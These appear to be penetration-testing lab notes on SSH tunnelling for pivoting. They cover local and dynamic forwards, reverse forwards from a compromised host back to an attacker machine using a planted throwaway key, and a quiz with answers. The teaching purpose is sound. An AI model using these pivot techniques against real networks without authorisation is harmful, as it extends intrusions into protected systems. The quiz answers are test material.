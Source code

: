 The first tool we'll be looking at is none other than the bog-standard SSH client with an OpenSSH server. Using these simple tools, it's possible to create both forward and reverse connections to make SSH "tunnels", allowing us to forward ports, and/or create proxies.

## Forward Connections

Creating a forward (or "local") SSH tunnel can be done from our attacking box when we have SSH access to the target. As such, this technique is much more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said, Microsoft (relatively) recently brought out their own implementation of the OpenSSH server, native to Windows, so this technique may begin to get more popular in this regard if the feature were to gain more traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

### Port forwarding

Port forwarding is accomplished with the `-L` switch, which creates a link to a **L**ocal port. For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10:  
`ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`  
We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 _on our own_ _attacking machine._ For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a tunnel between port 80 on the target server, and port 8000 on our own box. Note that it's good practice to use a high port, out of the way, for the local connection. This means that the low ports are still open for their correct use (e.g. if we wanted to start our own webserver to serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.

### Proxy

Proxies are made using the `-D` switch, for example: `-D 1337`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:  
`ssh -D 1337 user@172.16.0.5 -fN`  

This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

---

## Reverse Connections

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine _from_ the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

1. First, generate a new set of SSH keys and store them somewhere safe (`ssh-keygen`):
	![[SSH Tunnelling  - Port Forwarding-20241206144525160.webp]]
	This will create two new files: a private key, and a public key.

2. Copy the contents of the public key (the file ending with `.pub`), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file first.

3. On a new line, type the following line, then paste in the public key:  
    `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`  
    This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.
	The final entry in the `authorized_keys` file should look something like this:
	![[SSH Tunnelling  - Port Forwarding-20241206144824201.webp]]

4. Next. check if the SSH server on your attacking machine is running:  
	`sudo systemctl status ssh`
		If the service is running then you should get a response that looks like this (with "active" shown in the message):
		![[SSH Tunnelling  - Port Forwarding-20241206144943302.webp]]
		If the status command indicates that the server is not running then you can start the ssh service with:  
		`sudo systemctl start ssh`

5. The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.
7. With the key transferred, we can then connect back with a reverse port forward using the following command:  
	`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN   `

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:  
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN   `

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients, but this command can be used to create a reverse proxy in clients which do support it:  
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`  

This, again, will open up a proxy allowing us to redirect all of our traffic through localhost port 1337, into the target network.

> [!Note]
>_Modern Windows comes with an inbuilt SSH client available by default. This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're connecting back from. In many ways this makes the next task covering plink.exe redundant; however, it is still very relevant for older systems._


---
To close any of these connections, type `ps aux | grep ssh` into the terminal of the machine that created the connection:

![[SSH Tunnelling  - Port Forwarding-20241206145700214.webp]]

Find the process ID (PID) of the connection. In the above image this is 105238.

Finally, type `sudo kill PID` to close the connection:

![[SSH Tunnelling  - Port Forwarding-20241206145743341.webp]]


---
> [!question]
>1. If you're connecting to an SSH server _from_ your attacking machine to create a port forward, would this be a local (L) port forward or a remote (R) port forward?
>`L`
>2. Which switch combination can be used to background an SSH port forward or tunnel?
>`-fN`
>3. It's a good idea to enter our own password on the remote machine to set up a reverse proxy, Aye or Nay?
>`Nay`
>4. What command would you use to create a pair of throwaway SSH keys for a reverse connection?
>`ssh-keygen`
>5. If you wanted to set up a reverse portforward from port 22 of a remote machine (172.16.0.100) to port 2222 of your local machine (172.16.0.200), using a keyfile called `id_rsa` and backgrounding the shell, what command would you use? (Assume your username is "kali")
>`ssh -R 2222:172.16.0.100:22 kali@172.16.0.200 -i id_rsa -fN`
>6. What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell?
>`ssh -D 8000 user@target.thm -fN`
>7. If you had SSH access to a server (172.16.0.50) with a webserver running internally on port 80 (i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell.
>`ssh -L 8000:127.0.0.1:80 user@172.16.0.50 -fN`

**Next step: ** [[plink.exe]]
